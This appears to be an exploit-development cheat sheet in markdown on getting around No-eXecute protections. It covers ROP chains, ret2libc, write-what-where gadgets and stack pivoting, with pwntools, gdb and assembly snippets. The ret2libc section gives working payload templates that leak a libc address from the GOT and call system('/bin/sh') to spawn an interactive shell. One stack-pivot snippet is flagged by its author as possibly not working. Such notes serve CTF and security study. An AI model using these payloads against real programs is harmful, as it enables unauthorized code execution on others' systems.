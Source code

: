 # No eXecute

## ROP Chains

Pwntools ROP documentation: <https://docs.pwntools.com/en/latest/rop/rop.html>  
<https://github.com/Gallopsled/pwntools-tutorial/blob/master/rop.md>  
Stephen Sims - Return Oriented Shellcode (SANS SEC760 Content)  
<https://www.youtube.com/watch?v=7BMyVvYv5d0>  
Automate finding gadgets <https://github.com/packz/ropeme>  

Overflow a buffer to control the EIP/RIP.  
From the EIP/RIP onwards, place the address of the instructions you are using and any values that need to be popped into registers, followed by an (32bit: `int 0x80` or 64bit: `syscall`) to switch to kernel mode and execute the system call.  

You can view the available gadgets in a program with `ropper`  
E.g. `ropper -f vuln` to view all of the gadgets in a binary.  


**Calling execve():**  
- AL register needs to hold 0x0b
- BX register needs to hold a pointer to your arg for the system call
- CX register points to the arg vector ARGV pointer array
- DX register points to the ENVP array (Environment Variable Pointer)

If the program has an mmap() function, you need to find rop gadgets **after** the mmap() has occurred to ensure the gadgets do exist in memory.  
- You can then use `ltrace` to view the address where mmap is mapped and add instuction offsets
- Validate by hitting a breakpoint in gdb and addid the 2 values, then `x/i $addr`

### Write What Where

Gadgets that allow you to store data in memory, i.e. create a pointer to an argument.  
 
E.g.  

```asm
# Basic and best example
mov [rdi], rsi; ret;

# Alternative:
xchg byte ptr [rdi], bl; ret;
```

### Writeable Locations

Find writable sections with `readelf -S -W ./vuln`  
Use pwntools to reference section addresses:  
```python
from pwn import *
context.binary = elf = ELF("./vuln")
print(elf.symbols)
```

**.data** stores initialised variables.  
The address of .data can be found with:  
```python
from pwn import *
context.binary = elf = ELF("./vuln")
data_section = elf.symbols.data_start
```

**.bss** stores uninitialised variables.  
The address of .bss can be found with:  
```python
from pwn import *
context.binary = elf = ELF("./vuln")
bss_section = elf.symbols.__bss_start
```

## ret2libc

*Methodology:*  
Use `printf` or `puts` to leak and address, then calculate the libc base address,  
and from that, call `system()` with `/bin/sh` as its argument.  

**Information gathering:**  
Determine the version of libc in use:  
`ldd <target_binary>`  
Find offsets to useful functions:  
`readelf -W -s <libc_file>`  

```python3
# Offsets
offsetPuts = 0x00074db0
offsetSystem = 0x0004c800
offsetBinSh = 0x1b5faa
```
```bash
# To get the offset of /bin/sh you may need to search in GDB:
gdb <target_binary>
b main
run
vmmap libc
search /bin/sh
# subtract the libc start address from the /bin/sh location to find it's offset
```

Gather some addresses to leak values, and any ROP gadgets needed to  
fill registers or remove items from the stack after use.  

```python3
puts_got = p32(elf.got.puts)
puts_plt = p32(elf.plt.puts)
main_ptr = p32(elf.symbols.main)
pop_ebx = p32(0x0804901e) # 0x0804901e: pop ebx; ret;
ret = p32(0x0804900a) # 0x0804900a: ret;
```

**Send a payload to leak the address of puts in the GOT**  

```python3
# 32 Bit example
payload1 = flat([
    offset, # Overflow the buffer to the save EIP
    puts_plt, # Function to call
    pop_ebx, # Address we return to after the puts function (cleans our arg from the stack
    puts_got, # Argument for puts call
    main_ptr # run main again so we can send a new payload
])
io.sendline(payload1)
leak = io.recv() # The first bytes will contain your leaked address. Bytes should be received up until your next input line.

# 64 Bit example
payload2 = flat([
    offset, # Overflow the buffer to the save RIP
    pop_rdi, # pop our argument into the RDI register
    puts_got, # argument of the puts call
    puts_plt, # call puts
    main_ptr # run main again to send a new payload
])
io.sendline(payload2)
leak = io.recv() # The first bytes will contain your leaked address. Bytes should be received up until your next input line.
```

*Note: You may need to call certain functions to trigger population of the GOT  
before you start leaking adresses*  

**Save the leaked address and calculate offsets**  

```python3
# 32 Bit
address = unpack(leak[:4])
print(hex(address))

base = address - offsetPuts
system = base + offsetSystem
binSh = base + offsetBinSh

# 64 Bit
address = leak[:6]
address += b"\x00\x00"
print(f"Leaked address: {hex(unpack(leak))}")

base = unpack(address) - offsetPuts
system = base + offsetSystem
binSh = base + offsetBinSh
```

**Spawn a shell**  

```python3
# 32 Bit
payload2 = flat([
    offset, # overflow the buffer up until the saved EIP
    system, # call system
    b"BBBB", # dummy return address
    binSh # pointer to "/bin/sh" as the system() argument
])
io.sendline(payload2)
io.interactive()

# 64 Bit
payload2 = flat([
    offset, # overflow the buffer up until the saved RIP
    ret, # A ret gadget may be needed for stack alignment
    pop_rdi, # save the argument in RDI
    binSh, # Argument for system
    system # call system
])
io.sendline(payload2)
io.interactive()
```

## Stack Pivoting

Gadgets to control ESP/RSP:  

```asm
pop rsp; ret;               # Unlikely, but great

xchg <reg>, rsp; ret;       # Just need to control the register in question:
# eg.
pop <reg>; ret;
<reg value>
xchg <reg>, rsp; ret

leave; ret;                 # These are everywhere
```

leave; ret; explanation:  
`leave` is equivalent to `mov rsp, rbp; pop rbp;`  
So a `leave; ret;` looks like `mov rsp, rbp; pop rbp; pop rip;`  
That means that when we overwrite RIP, the 8 bytes before it overwrite RBP (4 bytes for ESP)  
If we then call `leave; ret;` again, RBP is moved into RSP, thus giving us control over the stack location.  

### Example "leave; ret;" Payload

*Note: Not sure if this works.*  

```python3
from pwn import *
rop.raw([
    b"A" * rbp_offset, # rip control - 8 (4 for 32bit)
    new_stack_addr,
    leave_ret,
])
```

### Example "xchg rax, rsp; ret;" Payload

Using a simple `xchg` instruction where we control the register that is exchanged with esp.  
*This doesn't cover finding a new stack location*  

```python
from pwn import *

xchg = p32(0x0804882e) # 0x0804882e: xchg eax, esp; ret;
pop = p32(0x0804882c) # 0x0804882c: pop eax; ret;

payload = flat([
  pop,
  leaked_addr,
  xchg
])
```

### Example "sub esp, 0x20"

If you don't have much space for a rop chain, eg. only 4 or 8 bytes are overflowed out of the buffer,  
you can utilise a `sub esp, 0x20`, or similar to move the stack pointer lower in memory,  
where you have additional ROP gadgets.  
Use ROP gadgets in your offset data rather than just junk alone.  
